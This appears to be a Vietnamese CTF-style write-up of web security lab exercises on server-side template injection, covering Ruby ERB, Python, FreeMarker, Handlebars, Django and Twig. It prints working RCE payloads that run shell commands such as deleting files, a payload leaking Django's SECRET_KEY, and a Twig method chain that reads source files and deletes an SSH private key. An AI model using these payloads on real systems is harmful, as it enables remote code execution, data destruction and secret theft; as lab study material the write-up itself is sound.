

# Web12

## Table of Contents
- [**SSTI**](#ssti)
    - [Basic server-side template injection](#basic-server-side-template-injection)
    - [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)
    - [Server-side template injection using documentation](#server-side-template-injection-using-documentation)
    - [Server-side template injection in an unknown language with a documented exploit](#server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
    - [Server-side template injection with information disclosure via user-supplied objects](#server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
    - [Server-side template injection in a sandboxed environment](#server-side-template-injection-in-a-sandboxed-environment)

# **SSTI**

### Basic server-side template injection

Nhận thấy một số sản phẩm sau khi bấm xem sẽ hiện thông báo hết hàng, và nội dung thông báo được lấy trên 



Sau một vài lần thử, nhận thấy ta có thể thực hiện code injection bằng payload `<%25+print(7*7)+%25>`


Trong lúc thử các payload, nhận thấy server hiện thị phần debug, nhận ra server-side sử dụng `Ruby ERB`


Dùng function `system()` để thực hiện shell command


Dùng function `system()` để thực hiện xóa file `/home/carlos/morale.txt`

```ruby
<%= system('rm /home/carlos/morale.txt') %>
```


Function trả về `true` → File được xóa thành công

---

### Basic server-side template injection (code context)

Khi sử dụng chức năng đổi tên hiển thị, có thể thấy website sẽ gửi request đến server param `blog-post-author-display` với value `user.first_name` → khả năng cao server sẽ có một object `user` với field `first_name`, khi hiển thị tên server sẽ dùng code kiểu `{{user.first_name}}`


Thay `user.first_name` thành `7*'7'`


Nhận thấy tên của ta đã trở thành 7 ký tự `7`


Như vậy ta có thể thực hiện SSTI ở đây.

Craft payload để dump toàn bộ các class kèm với index của class `object` (`''.__class__.mro()[2]` sẽ trả về class `object`)

```python
[x for x in enumerate(''.__class__.mro()[2].__subclasses__())]
```

Vào phần comment, thấy tên của ta được đổi thành list các class


Ta sẽ sử dụng class `warning.catch_warnings` (index 59) bởi class này import module `sys` , từ đó ta có thể gọi đến module `os` để thực hiện RCE


```python
''.__class__.mro()[2].__subclasses__()[59].__init__.__globals__['sys'].modules['os'].system("ls /home/carlos")
```


Thấy ta đã list được file morale.txt trong thư mục home của `carlos`


```python
''.__class__.mro()[2].__subclasses__()[59].__init__.__globals__['sys'].modules['os'].system("rm /home/carlos/morale.txt")
```

Lab đã được solve → xóa file thành công


---

### Server-side template injection using documentation

Ở phần chỉnh sửa template của bài post, ta có thể thấy template sử dụng `${product.price}`


Nhập bừa vào phần `${}`, ta ta nhận thấy debugger về template `freemaker`


Tìm được payload thực hiện RCE cho template này

```java
"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")
```


---

### Server-side template injection in an unknown language with a documented exploit

Sau một hồi đọc HTML src của website, ta không thể tìm thấy nơi nó handle nội dung của parame `message` → khả năng template ở server side sẽ xử lý cái này


Gửi payload `message=${{<%[%'"}}%\` ta được error


→ Xác định được server sử dụng Handlebar template

Tìm được payload SSTI RCE cho template này

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Sửa paylad để xóa `/home/carlos/morale.txt`

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

URL encode và gửi payload qua param `message`


---

### Server-side template injection with information disclosure via user-supplied objects

Gửi payload {{7*7}} vào phần sửa template, ta nhận được lỗi như sau


→ xác định được server sử dụng `python 2.7` và framework `Django` 

Dùng `` để dump các object có sẵn, nhận thấy hiện tại ta có object `setting`


Dùng `{{settings.SECRET_KEY}}` để lấy secrete key


Submit secrete key để hoàn hành lab


---

### Server-side template injection in a sandboxed environment

Xem Solution

---

Server-side template injection with a custom exploit

Phát hiện 

Khi sử dụng chức năng đổi tên hiển thị, có thể thấy website sẽ gửi request đến server param `blog-post-author-display` với value `user.first_name` → khả năng cao server sẽ có một object `user` với field `first_name`, khi hiển thị tên server sẽ dùng code kiểu `{{user.first_name}}`


Thay `user.first_name` thành `'a'*7`


Thấy website trả về lỗi → xác định được server side sử dụng template `twig` ver `2.4`


Ngoài ra, khi ta upload một file không hợp lệ làm avatar, server sẽ hiển thị lỗi


→ khả năng cao object `user` được tạo bằng từ class `User`

→ object `user` có method `setAvatar()`

Gửi payload `user.setAvatar()`, ta bị lỗi thiếu arguments (bắt buộc phải có 2 argument)


Gửi payload ``user.setAvatar('aaa','bbbbb')`, ta thấy thông báo lỗi `Uploaded file mime type is not an image` cho `bbbbb` 


→ có thể đoạn được argument thứ 2 là mime-type của avatar, argument thứ nhất là nội dung avatar hoặc vị trí của avatar

Thử gửi payload  `user.setAvatar('/home/carlos/User.php','image/png')`

Reload trang post để method `setAvatar()` được kích hoạt, reload lần nữa để avatar được load

Ta đọc được nội dung file `User.php`


Đọc code ta thấy method `setAvatar()` sẽ tạo symlink từ `avatarLink` đến `filename`


Ngoài ra ta còn có public method `gdprDelete()` sẽ xóa cả symlink lẫn file gốc → ta cần tạo symlink đến `/home/carlos/.ssh/id_rsa` và gọi method `gdprDelete()` để xóa file đó


Lặp lại các bước để set avatar thành file `id_rsa`


Kiểm tra xem có đúng file không


Gọi method `gdprDelete()` và reload trang post để xóa file

